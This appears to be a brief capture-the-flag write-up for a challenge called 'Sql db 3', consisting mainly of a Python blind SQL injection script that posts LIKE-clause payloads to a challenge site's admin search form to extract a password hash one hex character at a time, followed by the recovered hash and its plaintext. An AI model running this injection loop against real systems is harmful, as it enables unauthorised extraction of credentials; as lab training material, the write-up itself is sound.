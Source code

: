 # Sql db 3

Blind sql
```python
import requests

url = 'http://joe-cv.threatsims.com/admin/search'
myobj = {'search': "pp' or password like '%"}
myobj = {}
passwd = "#"
for i in range(64):
    for j in "1234567890abcdef":
        passwd = passwd[:-1] + j
        myobj["search"] = "pp' or password like '" + passwd + "%"
        x = requests.post(url, data = myobj)

        a = x.text
        if "joe" in a:
            print(passwd)
            passwd += "#"
            break

    if j == "f" and passwd[-1] != "#":
          break
```
It gives 248b57c5cabbc9944d169d10bc4959a042d0bb81ab6cfc9166f40a9d0f0fd614 which is hash of "tigers"
        
